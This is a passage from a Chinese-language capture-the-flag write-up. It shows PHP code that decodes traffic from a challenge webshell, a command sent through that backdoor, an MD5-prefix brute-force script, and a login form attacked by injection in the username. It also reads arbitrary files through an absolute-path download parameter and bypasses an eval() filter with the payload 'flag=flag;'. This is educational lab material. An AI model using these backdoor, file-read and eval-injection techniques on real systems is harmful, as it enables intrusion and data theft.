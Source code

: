```php
        for($j=0; ($j<$c&&$i<$l); $j++,$i++)
        {
            $o.=$t{$i}^$k{$j};
        }
    }
    return $o;
}

function dec($out) {
    return gzuncompress(x(base64_decode($out), '4f7f28d7'));
}

echo dec('TPp8VHv2Kv4DTuVN+hCEff8ve2EBCpdlZk33ypDEwMumBIr0uCrKpbiq1Z5+6xyPHma96ydT');
?>
```
得到解码后的返回值：
```
b4ckdo0r.php flag.php index.php robots.txt this_i5_flag.php
```
然后执行命令 `cat this_i5_flag.php`，和上面一样的方法编码后发送得到编码后的 flag，再用同样方法解码即可。最后 flag 在页面注释中。

## GetFlag
熟悉的爆破 md5 套路：
```py
import hashlib, sys

for i in range(10**5, 10**8):
    val = hashlib.md5(str(i)).hexdigest()
    if val[:6] == sys.argv[1]:
        print(i)
        break
```
用户名可以直接注入，密码任意。登录后可以看到三个文件。提示说 flag 在 web 根目录。注意到文件的下载 url 为：
```
/Challenges/file/download.php?f=a.php
```
可以尝试下载 `flag.php`，但是显示 `flag{wow!!!but not true}`。猜想这里可能不能使用相对路径，换成绝对路径：
```
/Challenges/file/download.php?f=/var/www/html/Challenges/flag.php
```
得到源码：
```php
<?php
$f = $_POST['flag'];
$f = str_replace(array('`','$','*','#',':','\\','"',"'",'(',')','.','>'),'', $f);
if((strlen($f) > 13) || (false !== stripos($f,'return')))
{
		die('wowwwwwwwwwwwwwwwwwwwwwwwww');
}
try
{
		 eval("\$spaceone = $f");
}
catch (Exception $e)
{
		return false;
}
if ($spaceone ==='flag'){
	echo file_get_contents("helloctf.php");
}

?>
```
。。。看似过滤一大堆，实际上直接 POST 提交 `flag=flag;` 就完了，需要注意的就是最后的分号。
